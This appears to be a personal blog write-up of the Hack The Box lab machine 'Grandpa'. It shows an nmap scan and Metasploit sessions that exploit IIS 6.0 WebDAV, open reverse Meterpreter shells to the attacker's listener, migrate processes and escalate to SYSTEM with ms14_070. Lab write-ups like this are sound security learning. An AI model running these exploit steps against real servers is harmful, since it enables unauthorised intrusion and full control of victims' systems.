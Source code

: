 ```yaml
---
layout: post
title:  "HTB: Grandpa"
date:   2021-03-14 21:00:00 +1100
category: hacking
---
```


## Grandpa
Grandpa was next after Irked; I went in blind.

## Ports
HTTP only.

## IIS 6.0
Nmap says:

{% highlight shell %}
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
{% endhighlight %}

A quick google and I decide to yeet metasploit at it:

{% highlight shell %}
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.10.10.14
rhosts => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.14:1032) at 2021-03-14 05:31:44 -0400

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2132 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
{% endhighlight %}

## Privesc
I run the local exploit suggester and get about 6 different potential options; none of them work. I google for kernel exploits for Server 2003 SP1 (this is what we've got), I find some more options and and try them; nada.

What I was doing wrong - and I was doing something wrong - was that I needed to migrate into a different process before I started. So once that was done, no more problems:

{% highlight shell %}
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 272   4     smss.exe                                                        
 280   1080  cidaemon.exe                                                    
 320   1080  cidaemon.exe                                                    
 # etc                                    
 1408  396   vmtoolsd.exe                                                    
 1456  396   svchost.exe                                                     
 1600  396   svchost.exe                                                     
 1704  396   alg.exe                                                         
 1840  612   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2316  612   wmiprvse.exe                                                    
 2752  3180  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 3180  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3628  612   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3988  2752  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 4092  1080  cidaemon.exe                                                    

meterpreter > migrate 3628
[*] Migrating from 2752 to 3628...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.10.14.10:1234 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.10:1234 -> 10.10.10.14:1040) at 2021-03-14 06:05:40 -0400

meterpreter > shell
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
{% endhighlight %}

I'm going to do this again tomorrow **without** Metasploit by following a walkthrough.
